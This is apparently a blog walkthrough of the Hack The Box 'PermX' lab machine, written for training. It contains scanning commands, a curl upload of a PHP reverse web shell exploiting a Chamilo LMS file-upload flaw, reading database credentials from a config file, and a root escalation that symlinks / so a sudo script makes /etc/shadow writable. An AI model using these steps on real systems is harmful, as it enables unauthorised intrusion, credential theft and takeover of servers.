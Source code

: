 ```yaml
---
title: "PermX machine on HTB"
classes: wide
header:  
  teaser: /assets/images/posts/writeups/permx.jpg
  #overlay_image: /assets/images/main/header3.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "What can go wrong when a free and open source LMS is vulnerable? Basically everything! This time was Chamilo, next time..."
description: "Walkthrough on PermX machine from HackTheBox"
categories:
  - writeups
tags:
  - chamilo
  - LMS
  - curl
  - HTB
  - CTF
  - subdomain
  - writeup
  - HackTheBox
  - Easy
toc: false
---
```

# PermX CTF

<img src="/assets/images/posts/writeups/permx.jpg" alt="PermX" width="500" class="align-center">

What can go wrong when a free and open source LMS is vulnerable? Basically everything! This time was Chamilo, next time...

## Information gathering

### Enumeration

#### nmap

Command:
```sh
nmap -sC -sV -p- -A 10.10.11.23
```

Results:
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: eLEARNING
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
#### ffuf

Command:
```sh
ffuf -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -H 'Host: FUZZ.permx.htb' -u http://permx.htb -fc 302
```

Results:
```sh
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 71ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 48ms]
WWW                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 48ms]
```

## Exploitation

### Foothold
1. Check subdomain lms.permx.htb is has an installation of Chamilo LMS
2. The LMS is vulnerable to file upload CVE-2023-4220: https://starlabs.sg/advisories/23/23-4220/?source=post_page-----136bfcb54ac2--------------------------------
3. Using curl we can upload a revwebshell
```sh
curl -F 'bigUploadFile=@rizi85_was_here.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
4. Check the folder were updates are stored and run the shell:
```sh
http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/
```
5. Once on the server check files /var/www/chamilo/app/config there is a configuration.php containing DB credentials
```sh
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```
6. Checking home folder or content of /etc/passwd we can see there is a user called "mtz" on the machine, we can SSH with this user and DB password

#### Data exfiltration
1. Get the content of the user flag: **[UserFlag]**

### Privilege escalation
1. Run sudo -l and see user mtz can run:
```sh
User mtz may run the following commands on permx:  
(ALL : ALL) NOPASSWD: /opt/acl.sh
```
2. For privesc:
```sh
mtz@permx:~$ ln -s / root  
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow  
mtz@permx:~$ nano /etc/shadow
```
3. Now we will copy the mtz hash in place of root hash and will login with the same password
4. Finally we can su root 

#### Data exfiltration
1. Get the root flag: **[RootFlag]**